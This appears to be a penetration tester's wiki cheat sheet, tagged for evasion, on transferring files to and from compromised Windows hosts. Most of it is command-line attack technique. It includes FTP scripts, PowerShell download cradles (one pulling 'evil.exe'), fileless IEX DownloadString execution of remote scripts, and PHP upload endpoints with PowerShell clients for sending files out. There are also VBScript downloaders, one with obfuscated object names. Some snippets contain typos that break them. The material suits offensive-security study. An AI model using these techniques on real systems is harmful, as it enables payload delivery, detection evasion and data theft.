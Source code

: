 ```yaml
---
title: File Transfer
date: M01-28-2023
author: i4
---
```

#evasion 

- Use [UPX Packer](/wiki/Security/Tools/UPX%20Packer.md) and or [Exe2Hex](/wiki/Security/Tools/Exe2Hex.md) before transferring data
## FTP
```cmd
C:\> ftp -h

Transfers files to and from a computer running an FTP server service
(sometimes called a daemon). Ftp can be used interactively.

FTP [-v] [-d] [-i] [-n] [-g] [-s:filename] [-a] [-A] [-x:sendbuffer] [-r:recvbuffer] [-b:asyncbuffers] [-w:windowsize] [host]

  -v              Suppresses display of remote server responses.
  -n              Suppresses auto-login upon initial connection.
  -i              Turns off interactive prompting during multiple file
                  transfers.
  -d              Enables debugging.
  -g              Disables filename globbing (see GLOB command).
  -s:filename     Specifies a text file containing FTP commands; the
                  commands will automatically run after FTP starts.
  -a              Use any local interface when binding data connection.
  -A              login as anonymous.
  -x:send sockbuf Overrides the default SO_SNDBUF size of 8192.
  -r:recv sockbuf Overrides the default SO_RCVBUF size of 8192.
  -b:async count  Overrides the default async count of 3
  -w:windowsize   Overrides the default transfer buffer size of 65535.
  host            Specifies the host name or IP address of the remote
                  host to connect to.

Notes:
  - mget and mput commands take y/n/q for yes/no/quit.
  - Use Control-C to abort commands.
```

**Using non-interactive FTP**
```cmd
> echo open [ip] 21 > ftp.txt
> echo USER [user] >> ftp.txt
> echo [password] >> ftp.txt
> echo bin >> ft.txt
> echo GET [file] >> ftp.txt
> echo bye >> ftp.txt 
```

Start with: `> ftp -v -n -s:ftp.txt`


## Scripting Languages
### Powershell
- `powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1`
```powershell
echo $webclient = New-Object System.Net.WebClient >> wget.ps1
echo $url = "http://[IP]/[file]" >>wget.ps1
echo $file = "[dstfile]" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

#### With a PHP Server

##### Server
```php
<?php
	$uplaoddir = '/var/www/uploads';
	$uploadfile = $uploaddir . $_FILES['file']['name'];

	move_uploaded_file($_Files['file']['tmp_name'], $uploadfile)
?>
```
or

- Allows the use of `Invoke-WebRequest` / `Invoke-RestMethod`
```php
<?php
	$file = file_get_contents("php://input");
	file_put_contents("uploads/upload.txt", $file);
?>
```
##### Client
```powershell
(New-Object System.Net.WebClient).UploadFile('http://[ip]/upload.php', '[file]')
```
or (with the second php script)
```powershell
invoke-restmethod -uri http://[ip]/upload.php -method post -infile [file]
```

**Other Methods**
- `powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/evil.exe', 'new-exploit.exe')`
- `Invoke-WebRequest -Url http://[IP]/[file] [dstFile]`
- File to base64 string `[convert]::ToBase64String((Get-Content -path "your_file_path" -Encoding byte))` 
	- Decode on target system with `echo "[base64 string]" | base64 -d > output.txt`
`

To execute a download without saving it to disk use `IEX (Invoke-Expressions)`
```
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://[URL]/file.ps1')
```
### VBScript

#### Method 1
- `csript wget.vbs http://[IP]/[file] [dstFile]`
- `wscript wget.vbs http://[IP]/[file] [dstFile`

```vbscript
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo  Err.Clear >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo  If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo  http.Open "GET", strURL, False >> wget.vbs
echo  http.Send >> wget.vbs
echo  varByteArray = http.ResponseBody >> wget.vbs
echo  Set http = Nothing >> wget.vbs
echo  Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo  Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo  strData = "" >> wget.vbs
echo  strBuffer = "" >> wget.vbs
echo  For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo  ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo  Next >> wget.vbs
echo  ts.Close >> wget.vbs
```

Full file:
```vbscript
strUrl = WScript.Arguments.Item(0)
StrFile = WScript.Arguments.Item(1)
Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0
Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0
Const HTTPREQUEST_PROXYSETTING_DIRECT = 1
Const HTTPREQUEST_PROXYSETTING_PROXY = 2
Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts
 Err.Clear
 Set http = Nothing
 Set http = CreateObject("WinHttp.WinHttpRequest.5.1")
 If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest")
 If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP")
 If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP")
 http.Open "GET", strURL, False
 http.Send
 varByteArray = http.ResponseBody
 Set http = Nothing
 Set fs = CreateObject("Scripting.FileSystemObject")
 Set ts = fs.CreateTextFile(StrFile, True)
 strData = ""
 strBuffer = ""
 For lngCounter = 0 to UBound(varByteArray)
 ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1)))
 Next
 ts.Close
```



#### Method 2

- `wscript.exe download.vbs http://[ip]/file [destination]`
```vbscript
Dim x,x1,x2,x3,s,s1,s2>wget.vbs
x1 = "MSXML2.">>wget.vbs
x2 = "Server">>wget.vbs
x3 = "XMLHTTP">>wget.vbs
s1 = "ADODB.">>wget.vbs
s2 = "Stream">>wget.vbs
Set x = CreateObject(x1 & x2 & x3)>>wget.vbs
x.Open "GET", WScript.Arguments.Item(0), False>>wget.vbs
x.Send>>wget.vbs
Set s = CreateObject(s1 & s2)>>wget.vbs
s.Open>>wget.vbs
s.Type = 1>>wget.vbs
s.Write x.ResponseBody>>wget.vbs
s.SaveToFile WScript.Arguments.Item(1), 2>>wget.vbs
s.Close>>wget.vbs
```

